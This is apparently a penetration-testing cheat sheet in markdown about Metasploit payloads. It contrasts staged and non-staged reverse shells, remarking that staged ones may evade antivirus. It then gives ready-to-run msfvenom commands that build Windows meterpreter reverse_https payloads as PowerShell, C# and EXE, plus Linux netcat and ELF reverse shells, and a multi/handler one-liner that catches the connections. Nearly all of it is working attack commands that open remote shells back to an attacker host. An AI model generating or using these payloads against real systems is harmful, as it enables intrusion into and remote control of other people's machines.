 ## Non-Staged Payloads

e.g. `windows/shell_reverse_tcp`
- Contains all the code needed to connect to attackers machine
- Works with NC & Multihandler

## Staged Payloads

e.g. `windows/shell/reverse_tcp`
- Contains minimum amount of code to perform a call back
- Does not take up as much memory
- May evade anti-virus
- Works with Multihandler only

# Windows
## PowerShell

```bash
sudo msfvenom -p windows/x64/meterpreter/reverse_https LHOST=x.x.x.x LPORT=443 -f ps1
```

### Csharp

```bash
sudo msfvenom -p windows/x64/meterpreter/reverse_https LHOST=x.x.x.x LPORT=443 -f csharp
```

### EXE

```bash
sudo msfvenom -p windows/x64/meterpreter/reverse_https LHOST=x.x.x.x LPORT=443 -f exe > shell.exe
```

## Multi-Handler

```bash
sudo msfconsole -q -x "use exploit/multi/handler;set payload windows/x64/meterpreter/reverse_https;set LHOST x.x.x.x;set LPORT 443;run;"
```
# Linux

### Netcat

```bash
sudo msfvenom -p cmd/unix/reverse_netcat lhost=x.x.x.x lport=443
```
#### 32 Bit:

```bash
sudo msfvenom -p linux/x86/meterpreter/reverse_tcp LHOST=x.x.x.x LPORT=443 -f elf > shell.elf
```
#### 64 Bit:

```bash
sudo msfvenom -p linux/x64/meterpreter/reverse_tcp LHOST=x.x.x.x LPORT=443 -f elf > shell.elf
```